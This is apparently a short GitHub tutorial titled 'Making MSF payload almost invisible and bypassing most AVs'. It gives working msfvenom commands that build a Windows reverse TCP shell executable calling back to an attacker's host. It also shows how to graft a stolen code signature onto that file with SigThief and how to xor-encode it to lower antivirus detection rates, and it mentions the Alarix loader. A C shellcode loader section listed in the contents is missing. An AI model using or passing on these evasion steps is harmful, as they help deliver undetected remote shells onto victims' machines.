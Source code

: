 ### Making MSF payload almost invisible and bypassing most AVs

## Contents
- Introduction 

- Ways to obfuscate msf payloads
    - Basic msf payload
    - Using SigThief
    - Using xor 
    - Using shellcode with C shellcode loader
    - Using encryption (Alaris)
    
## Introduction 

Avs have significantly improved in recent years it still relies on age-old AV techniques that are often trivial to bypass. In this post we’ll analyse some basic pool of techniques which can be used to protect a basic msf payload to bypass most modern Avs. 

## Ways to hide msf payloads
In the following we will explore ways to encode/obfuscate msf payload and will have a goal to finally reach a point where we are satisfied with our results.

### Basic msf payload
Lets see how our basic msf payload stand againt Virustotal.

- Build command
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip here> LPORT=<port here> -f exe -o shivang_shell.ex
```

- Result

![Alt Text](https://i.ibb.co/rQrdx2j/basic-msf.png)

### Using SigThief
SigTheif is tool which takes a signature from a PE file and add that to another. Many Avs detect maalicous PE files based on signatures so this method can drop our detection rate to some extent.

- Build command
```
python sigthief.py -i git-cmd.exe -t shivang_shell.exe -o shivang_shell_2.exe
```

- Result

![Alt Text](https://i.ibb.co/BtSZkwQ/basic-msf-sig.png)

Droping only 2 detection is not at all a huge move here . Although there are many combination which can be tried from SighTheif but for now let's leave it here

### Using xor
With xor payload is decrypted inside the memeory once loaded via msfveom we can generate such payload 

- Build command

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip here> LPORT=<port here> -e x64/xor_dynamic -i 20 -f exe -o shivang_shell_xor.exe
```

- Result

![Alt Text](https://i.ibb.co/P9McckC/basic-msf-xor.png)

Well we are making some progress now.


### Using encryption (Alaris)
Alarix is a protective PE file loader which does not allow any function hooking and in memory inspection whihch Avs use for detection.


- Result

![Alt Text](https://i.ibb.co/dMc2Zvg/alarix.png)

